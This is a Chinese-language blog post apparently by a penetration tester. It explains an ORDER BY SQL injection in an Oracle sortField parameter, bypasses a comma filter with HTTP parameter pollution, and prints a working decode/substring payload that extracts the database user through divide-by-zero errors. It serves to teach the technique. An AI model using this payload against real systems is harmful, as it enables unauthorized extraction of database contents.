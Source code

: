 最近看到一个大佬的渗透报告，里面有一个排序注入的利用。太久没有手工注入SQL了，一时间看得有点懵，花了点时间研究了一下，并记录成这篇博客。由于设计到真实生产系统，截图就不多给了，直接口头表述。如果有不清楚的，还请见谅。



存在SQL注入的接口存在一个sortField参数，传入值为0，会报错，响应包回显SQL查询语句

```sql
SELECT * FROM (
	SELECT TMP_PAGE.*,ROWNUM ROW_ID FROM (
		SELECT * FROM (
			SELECT a.id as "id",a.xxx as "xxx",……(反正有很多列) FROM
			FROM wl a
			LEFT JOIN t_user u 
			ON u.id=a.sszh WHERE jgzt="1" and (
				YXQX="-1" or time > ADD_MONTHS(sysdate,0-YXQX*12)
			)
			ORDER BY 0
			))
			TMP_PAGE)
WHERE ROW_ID <= ? AND ROW_ID >?

```

该sortField参数会传到ORDER BY语句到后面，即ORDER BY {sortField}

此时记录一下ORDER BY 0 的响应包，稍后进行进一步注入的时候会用到



因为看不到这个查询语句在干啥？我把它丢进了GPT分析，分析结果如下：



这个查询语句是一个复杂的Oracle SQL语句，主要用于从数据库中检索特定条件下的分页数据。让我详细解释一下：

1. 最内层子查询 (Innermost Subquery):
   - 这个查询从`wl`表中选择了一系列列。
   - 使用了`LEFT JOIN`将该表与`t_user`表关联，连接条件是`u.id = a.sszh`。
   - WHERE子句包括条件`jgzt="1"`，表示选取状态为"1"的记录。
   - 还有一个复杂的条件，`(YXQX="-1" or time > ADD_MONTHS(sysdate, 0 - YXQX * 12))`，这是一个日期比较，根据条件选取符合要求的记录。
2. 第二层子查询 (Second Subquery):
   - 这个查询对最内层的结果进行排序，`ORDER BY 17`表示按照第17列排序。
3. 最外层子查询 (Outermost Subquery):
   - 使用`ROWNUM`给每一行结果分配一个行号，并将这个行号作为`ROW_ID`的别名。
   - 然后通过外部的`SELECT`语句，筛选出`ROW_ID`在指定范围内的记录，实现分页效果。



关于order by 注入，更多的可能关注这篇文章
[ORDER BY 注入](https://blog.csdn.net/li20132273/article/details/127714511)
这里就不多讲原理了。

因为是渗透测试报告，我没有机会手动进行测试，只能通过口头了解知道该系统对逗号进行了过滤。

针对该过滤，大佬使用了参数污染，基本原理如下：

```
若参数名一致，服务器可能有几种处理情况：
1. 将其拼接在一起
2. 第二个参数值覆盖第一个参数值
```

针对该原理使用payload 为：

```sql
sortField=decode(substring(user&sortField=1&sortField=1)&sortField=chr(103)&sortField=(1/0)&sortField=0)
```



首先先解释一下各类函数的作用：

- substring   截取字符串，第一个参数为字符串，第二个为start值，第三个为length值
- decode  通常用于在查询中进行条件性的值转换，通常格式为

```sql
DECODE(expression, search1, result1, search2, result2, ..., default_result)
```

其中 `expression` 是需要比较的值，`search1`, `search2`, ... 是要匹配的条件，`result1`, `result2`, ... 是匹配到相应条件时返回的结果，`default_result` 是当没有条件匹配时返回的默认结果。



而 `&`则是使用同参数名来给函数传参，最后服务器处理的结果会是：（返回包里也有）

```sql
ORDER BY 
DECODE(
	SUBSTRING（
  	user,1,1
  ),chr(103),1/0,0
)
```

语句的结果就是：

取`user`的第一个字母，若跟chr(103)匹配，则产生一个除零报错，若不匹配，则跟ORDER BY 0产生同样的错误（这就是为什么我让大家把前面ORDER BY 0的错误记下来）



总结：大佬的思路就是牛！我SQL注入就是SQLMAP一把梭，有就有，没有就没有了哈哈哈。